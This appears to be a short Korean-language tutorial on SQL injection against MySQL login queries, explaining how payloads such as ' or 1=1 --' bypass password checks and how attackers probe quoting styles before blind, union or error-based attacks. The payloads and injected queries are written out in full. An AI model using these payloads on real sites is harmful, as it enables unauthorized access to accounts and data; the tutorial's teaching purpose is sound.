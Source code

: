 # GENERAL SQL injection
<br>
<br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'

입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

-> 1=1 or 1 참이 되는 값을 주입하여 USER 리스트를 출력하게함
~~~~
<br><br>

이렇게 간단하고 심플한

' or 1=1 --' 
" or 1=1 "

같은 쿼리를 웹사이트의 취약점을 찾을때 자주 쓰인다.

먼저 말 그대로 심플하고 간결하지만 해당 웹 사이트의 페이로드를 찾기위해 쓰인다.

예를 들자면
```sql
SELECT * FROM member id='' and pw='';

SELECT * FROM member id="" and pw="";

SELECT * FROM member id=('') and pw=('');

SELECT * FROM member (id='') and (pw='');

SELECT * FROM member id=("") and pw=("");

SELECT * FROM member (id="") and (pw="");
```

이처럼 취약점을 찾을려고하는 사이틔의 로그인 또는 회원가입 등등

mysql 에 전송되는 쿼리가 어떻게 될지 개발자만 알수있기때문에

' or 1=1 --' 같은 간단한 쿼리로 페이로드를 파악한후에 

__blind sqli , union based sqli , error based sqli__ 등등

응용하여 공격을 한다.

만약 자신이 어떤 쿼리를 전송하는지 모르는 상태에서 일반적인 sqli attack 시도한다면

이런식으로 적용될 수 도있다.

```sql
SELECT * FROM member id="" and pw="";
# 해당 쿼리로 Login 체크

' or 1=1 --'
SELECT * FROM member id="' or 1=1 --'" and pw="";

" or 1=1 --"
SELECT * FROM member id="" or 1=1 --"" and pw="";
```

이처럼 경우의 수를 파악하여 시도를 한다음
참값이 된다면 해당 페이로드를 파악한 후 에 이어서 attakc 하는것이다.

### 마무리

sql injection 을 아무데서나 시도하면 잘못하다간 끌려간다.

<p style="color:red;">\ * (삐뽀삐뽀) * /</p>

![삐뽀삐뽀](./image/pooleeee.png)